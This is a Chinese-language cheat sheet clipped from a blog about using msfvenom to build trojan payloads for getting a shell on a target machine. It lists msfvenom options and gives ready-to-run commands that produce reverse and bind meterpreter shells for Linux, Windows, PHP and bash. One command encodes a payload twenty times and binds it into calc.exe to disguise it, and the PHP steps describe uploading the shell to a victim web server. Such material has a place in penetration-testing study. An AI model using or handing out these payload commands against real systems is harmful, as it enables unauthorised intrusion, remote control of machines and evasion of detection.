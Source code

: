 >  Clipped from: <https://thief.one/2017/08/01/1/>

msfvenom是用来生成木马文件的，然后在靶机上运行，本机设置监听端口就可以拿shell了。

### **基础命令**

| **-p, --payload \<payload>**   | **指定需要使用的payload(攻击荷载)** msfvenom --list payloads可以查看支持哪些 |
|--------------------------------|------------------------------------------------------------------------------|
| -l, --list \[module_type\]     | 列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all       |
| -n, --nopsled \<length>        | 为payload预先指定一个NOP滑动长度                                             |
| **-f, --format \<format>**     | **指定输出格式 (使用 --list formats 来获取msf支持的输出格式列表)**           |
| **-e, --encoder \[encoder\]**  | **指定需要使用的encoder（编码器）**                                          |
| **-a, --arch \<architecture>** | **指定payload的目标架构**                                                    |
| --platform \<platform>         | 指定payload的目标平台                                                        |
| -s, --space \<length>          | 设定有效攻击荷载的最大长度                                                   |
| -b, --bad-chars \<list>        | 设定规避字符集，比如: &#039;\\x00\\xff&#039;                                 |
| -i, --iterations \<count>      | 指定payload的编码次数                                                        |
| -c, --add-code \<path>         | 指定一个附加的win32 shellcode文件                                            |
| -x, --template \<path>         | 指定一个自定义的可执行文件作为模板                                           |
| -k, --keep                     | 保护模板程序的动作，注入的payload作为一个新的进程运行                        |
| --payload-options              | 列举payload的标准选项                                                        |
| **-o, --out \<path>**          | **保存payload**                                                              |
| -v, --var-name \<name>         | 指定一个自定义的变量，以确定输出格式                                         |
| --shellest                     | 最小化生成payload                                                            |
| -h, --help                     | 查看帮助选项                                                                 |
### **基础payload:**

1.  命令格式: msfvenom -p \<payload> \<payload options> -f \<format> -o \<path>
1.  Linux:
    1.  反向连接：
    *msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f elf \> shell.elf*

1.  正向连接：
    *msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=\<Target IP Address> LPORT=\<Target Port to Connect On> -f elf \> shell.elf*
1.  Windows:
    1.  **msfvenom -p windows/meterpreter/reverse_tcp LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f exe \> shell.exe**
    2.  msfvenom -a x86 --platform windows -p **windows/meterpreter/reverse_tcp** -e x86/shikata_ga_nai -i 20 lhost=192.168.10.11 lport=8888 -x calc.exe -f exe -o test.exe #编码20次、捆绑正常的32位calc.exe，生成32位的test.exe文件
1.  PHP:
    -   msfvenom -p php/meterpreter/reverse_tcp LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f raw \> shell.php
    -   再vim修改下文件内代码，看符不符合php规范
    -   上传到靶机上的web上
    -   然后访问靶机web上的该php文件
1.  Bash:
    1.  msfvenom -p cmd/unix/reverse_bash LHOST=\<Your IP Address> LPORT=\<Your Port to Connect On> -f raw \> shell.sh
